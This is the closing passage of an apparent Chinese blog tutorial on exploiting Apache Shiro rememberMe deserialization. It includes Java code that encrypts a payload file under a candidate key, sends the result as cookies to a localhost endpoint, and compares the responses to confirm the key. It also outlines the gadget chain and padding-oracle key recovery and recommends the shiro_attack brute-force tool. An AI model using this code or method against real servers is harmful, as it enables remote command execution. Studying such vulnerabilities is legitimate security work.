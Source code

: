 ```java
        } catch (IOException e) {
            e.printStackTrace();
        }
        FileReader fileReader = new FileReader(filepath);

        CbcEncrypt cbcEncrypt = new CbcEncrypt();
        String realcookie = "rememberMe=" + cbcEncrypt.encrypt(realkey,fileReader.readBytes());
        String errorcookie = "rememberMe=" + cbcEncrypt.encrypt(errorkey,fileReader.readBytes());
        System.out.println("realcookie --> " + realcookie);
        System.out.println("errorcookie --> " + errorcookie);
        String url = "http://127.0.0.1:8001/index";
        // 发送请求包，获取返回包
        HttpResponse realresponse = HttpRequest.get(url).cookie(realcookie).execute();
        HttpResponse errorresponse = HttpRequest.get(url).cookie(errorcookie).execute();
        String result1 = realresponse.header(Header.SET_COOKIE);
        String result2 = errorresponse.header(Header.SET_COOKIE);
        // 输出结果
        System.out.println("realkey ---> " + result1);
        System.out.println("errorkey ---> " + result2);
    }
```

![在这里插入图片描述](https://img-blog.csdnimg.cn/20210122190937627.png)



# 总结
&emsp;&emsp; Gadget Chian 如下。简单来说流程就是将生成恶意Payload进行AES加密，然后Base64编码，然后以``rememberMe={value}``形式发送给服务器。服务器将``value``Base64解码，然后将解码后数据进行AES解密，最后反序列化执行命令。
&emsp;&emsp; Shiro721在登录之后，用登录后服务器生成rememberMe的值进行Base64解码之后，用解码数据，再通过``Padding Oracle Attack``进行爆破得到key具体参考[Shiro 组件漏洞与攻击链分析](https://paper.seebug.org/1378/#412-apache-shiro-padding-oracle-attack)。

````
 *                  Gadget chian:
 *                      DefaultSecurityManager.resolvePrincipals()
 *                          DefaultSecurityManager.getRememberedIdentity()
 *                              AbstractRememberMeManager.getRememberedPrincipals()
 *                                  CookieRememberMeManager#getRememberedSerializedIdentity()
 *                                      AbstractRememberMeManager#getRememberedPrincipals()
 *                                          AbstractRememberMeManager.convertBytesToPrincipals()
 *                                              AbstractRememberMeManager.decrypt()
 *                                                  AbstractRememberMeManager.deserialize()
 *                                                      .....................
 *                                                               ..........
 *  
 *
````



----
## Shiro实用工具推荐
* [shiro_attack](https://github.com/j1anFen/shiro_attack) 推荐理由：javafx写的UI，支持tomcat全版本回显和Spring Boot回显。使用``SimplePrincipalCollection ``爆破key，支持高版本加密方式爆破（GCM模式）项目还在维护。
![](https://img-blog.csdnimg.cn/20210122183413881.png)
---
